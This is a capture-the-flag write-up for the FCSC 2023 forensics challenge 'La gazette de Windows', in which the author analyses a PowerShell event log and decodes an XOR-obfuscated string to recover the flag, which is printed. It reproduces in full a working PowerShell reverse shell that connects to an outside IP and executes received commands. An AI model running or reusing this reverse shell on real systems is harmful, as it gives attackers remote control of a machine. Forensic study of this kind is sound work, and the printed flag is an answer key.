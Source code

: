 # La gazette de Windows
# Original challenge 🇫🇷
Il semblerait qu'un utilisateur exécute des scripts Powershell suspects sur sa machine. Heureusement cette machine est journalisée et nous avons pu récupérer le journal d'évènements Powershell. Retrouvez ce qui a été envoyé à l'attaquant.
# Translated challenge 🇺🇸
It looks like a user is running suspicious Powershell scripts on their machine. Fortunately this machine is logged and we were able to recover the Powershell event log. Find what was sent to the attacker.
# Solution
We are dealing with an .evtx file, we can use the Windows Event Viewer to explore it.

Search for Windows Event Viewer and open it.

Open the Microsoft-Windows-PowerShell4Operational.evtx file.

![Capture d'écran 2023-05-12 024513](https://github.com/Alabouchsalaheddine/FCSC2023_WRITEUPS/assets/26192792/c930a561-6a15-4664-a49d-f1e646f5952c)


We have 9 events of which one is a warning

By exploring these 9 events, we can notice that the user created some script blocks.

The most interesting one is 
```
do {
    Start-Sleep -Seconds 1
     try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    } catch {}
} until ($TCPClient.Connected)
$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)
function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}
$l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
$s = ""
for ($i = 0; $i -lt 72; $i++) {
    $s += [char]([int]$l[$i] -bxor $i)
}
WriteToStream $s
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }
    WriteToStream ($Output)
}
$StreamWriter.Close()
```

1- This PowerShell script block creates a TCP client that connects to the IP address '10.255.255.16' on port 1337. It waits in a loop until the connection is successful and once it is, it retrieves a network stream and creates a stream writer to send data to the connected endpoint.

2- The script block also defines a function called "WriteToStream" which takes a string as input and sends it to the connected endpoint.

3- It then creates a byte array and uses a loop to populate it with values derived from the hexadecimal values in the variable "$l". The loop XORs each value with its index to derive the original value, and concatenates these values into a string which is passed to the "WriteToStream" function.

4- The script block then enters another loop, where it waits to read data from the network stream. When data is received, it converts the received bytes into a string, executes the string as a PowerShell command, captures any output, and sends the output back to the connected endpoint using the "WriteToStream" function.

5- Finally, the script block closes the stream writer. This script block could be part of a larger script implementing a remote command shell.

We don't need to have the server at the IP address available to reconstruct what was really sent.

We can skip the connexion part and create on powershell a script block with only the interesting part of the code as the following :
```
$ScriptBlock = {

    $StreamWriter = New-Object IO.StreamWriter($NetworkStream)
    function WriteToStream ($String) {
        [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
        $StreamWriter.Write($String + 'SHELL> ')
        $StreamWriter.Flush()
    }
    $l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
    $s = ""
    for ($i = 0; $i -lt 72; $i++) {
        $s += [char]([int]$l[$i] -bxor $i)
    }
	Write-Output $s
    WriteToStream $s

    $StreamWriter.Close()
}
Invoke-Command -ScriptBlock $ScriptBlock
```
![screenshot](https://github.com/Alabouchsalaheddine/FCSC2023_WRITEUPS/assets/26192792/784347f3-16f1-4c9a-b892-34d97d7779eb)

After the execution, we have the flag : FCSC{98c98d98e5a546dcf6b1ea6e47602972ea1ce9ad7262464604753c4f79b3abd3}                                                  
